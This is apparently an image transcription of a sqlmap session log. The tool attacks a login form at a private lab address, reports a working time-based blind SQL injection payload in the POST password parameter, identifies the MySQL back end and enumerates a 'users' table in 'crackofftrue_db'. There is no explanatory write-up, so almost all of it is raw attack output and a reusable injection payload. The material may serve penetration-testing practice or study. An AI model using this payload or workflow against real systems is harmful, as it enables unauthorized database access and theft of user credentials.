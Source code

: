 Info:

```
       ___
       __H__
 ___ ___["]_____ ___ ___  {1.8.7#stable}
|_ -| . [,]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:10:21 /2024-08-21/

[14:10:21] [INFO] parsing HTTP request from 'request.txt'
[14:10:22] [INFO] resuming back-end DBMS 'mysql' 
[14:10:22] [INFO] testing connection to the target URL
got a 302 redirect to 'http://172.25.0.2/error.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: password (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: 
username=admin&password=admin' AND (SELECT 5760 FROM (SELECT(SLEEP(5)))bBpi) AND 'gWSm'='gWSm
---
[14:10:22] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12
[14:10:22] [INFO] fetching tables for database: 'crackofftrue_db'
[14:10:22] [INFO] fetching number of tables for database 'crackofftrue_db'
multi-threading is considered unsafe in time-based data retrieval. Are you sure of your choice (breaking warranty) [y/N] N
[14:10:22] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                         
[14:10:22] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
1
[14:10:27] [INFO] retrieved: 
[14:10:37] [INFO] adjusting time delay to 1 second due to good response times
users
Database: crackofftrue_db
[1 table]
+-------+
| users |
+-------+

[14:10:51] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/172.25.0.2'

[*] ending @ 14:10:51 /2024-08-21/
```
